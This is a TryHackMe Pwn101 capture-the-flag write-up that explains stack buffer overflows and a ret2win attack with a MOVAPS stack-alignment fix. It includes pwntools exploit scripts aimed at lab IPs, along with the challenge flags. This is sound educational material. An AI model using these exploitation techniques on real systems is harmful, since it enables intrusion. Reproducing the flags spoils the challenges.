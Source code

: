```yaml
---
title: "[THM] Pwn101 Writeup"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/TryHackMe.jpg
categories:
    - [TryHackMe]
    - [CTF]
tags:
    - Pwn
    - Hacking
    - CTF
abbrlink: 83b7f1b
date: 2024-07-20 13:53:43
---
```


# Challenge 1 - pwn101

First, we use IDA to decompile the binary it gave us. We can see that the program declare a 60 bytes array for char v4. And the winnning condition is to use v4 to overflow and cover the value of v5, which is 1337 initially. Since it didn't ask us to make v5 to a specific value, we can just make sure it not equal to 1337.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141210657.png)

To do that, I use a Python script to do it.

```python
from pwn import *

r = remote("10.10.153.228", 9001)

r.recvuntil("Type the required ingredients to make briyani:")
r.sendline("A"*61)
r.interactive()
```

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141712693.png)

```
THM{7h4t's_4n_3zy_oveRflowwwww}
```

# Challenge 2 - pwn102

First step, IDA decompile the binary.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144645154.png)

According to the code, we can know that the char v4 is a 104 bytes array, and the winning condition is to let v5 equals to `0xC0FF330000C0D3`. So we can simply overflow the v4 to cover v5. The exploit is as follow.

```python
from pwn import *

payload = b"A" * 104 + p64(0xC0FF330000C0D3)


r = remote("10.10.153.228", 9002)
r.recvuntil("Am I right?")
r.sendline(payload)
```

By running this script, we can get the shell to cat the flag out.

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144940194.png)

```
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
```

# Challenge 3 - pwn103

First, I use `checksec` to check the binary protection.

```bash
┌──(kali㉿kali)-[~/CTF/THM/pwn103]
└─$ pwn checksec pwn
[*] '/home/kali/CTF/THM/pwn103/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Next, I use IDA to decompile the binary so that I can check where is the vulnerability easier. If you check the decompiled code throughly, you will find out the vuln is in the `general()` function, which is the 3rd choice in the menu (You can also find the vuln if you run the binary and test each choice on the menu). The code of the `general()` function is as follows.

```c
int general()
{
  const char **v0; // rdx
  char s1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts(asc_4023AA);
  puts(aJopraveenHello);
  puts(aJopraveenHopeY);
  puts(aJopraveenYouFo);
  printf("------[pwner]: ");
  __isoc99_scanf("%s", s1);
  if ( strcmp(s1, "yes") )
    return puts(aTryHarder);
  puts(aJopraveenGg);
  return main((int)aJopraveenGg, (const char **)"yes", v0);
}
```

We can notice that the vuln is at the `scanf()`, which allows us to cover the value of `s1`. Furthermore, I found a suspicious function in gdb.

![GDB](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725152515328.png)

The `admins_only()` function looks interesting. After checking the decompiled code in IDA, I found that it turns out to be dangerous.

```c
int admins_only()
{
  puts(asc_403267);
  puts(aWelcomeAdmin);
  return system("/bin/sh");
}
```

It open the shell for us! The thing is, how can we access this function? Until now, we can probably know that this is a ret2win problem. We need to cover the return address to gain access to the dangerous function. So I use `cyclic 100` to create the pattern to know the offset of the padding.

![Find the offset by cyclic](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725153412668.png)

Then by using the `cyclic -l faaaaaaa` to look up the offset value, we get the offset is 40.

```bash
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Next step is to find the address of `admins_only()`. Since the binary has no PIE, the address will be always fixed. To get the address, we can simply type in `print &admins_only` in gdb.

```bash
pwndbg> print &admins_only
$1 = (<text variable, no debug info> *) 0x401554 <admins_only>
```

Now, we know that the address of `admins_only()` is `0x401554`, so we can start writing the exploit!

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset

payload = padding + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

But when we execute the script, it won't give us the shell. After watching this video, I understand that there's a MOVAPS issue.

<div style="position: relative; width: 100%; height: 0; padding-bottom: 56.25%;">
    <iframe style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;" src="https://www.youtube.com/embed/-VUtXwDm5yQ" frameborder="0" allowfullscreen></iframe>
</div>
<br/>

So how do we solve the MOVAPS issue? [This articel](https://ropemporium.com/guide.html) tells us the answer.

> **The MOVAPS issue**
> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses `movaps` instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

Here I use the first method, which is add a ret gadget in my ROP (Return-Oriented Programming) chain. To find the ret gadget, we can type `layout asm` in gdb.

![ret gadget](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725162429324.png)

Now we can write the exploit with this solution to the MOVAPS issue.

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset
ret_gadget = 0x4016E0  # Solve the MOVAPS issue

payload = padding + p64(ret_gadget) + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

By running the script, we can get the shell and cat out the flag.txt!

![Pwned!](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725163326781.png)

```
THM{w3lC0m3_4Dm1N}
```
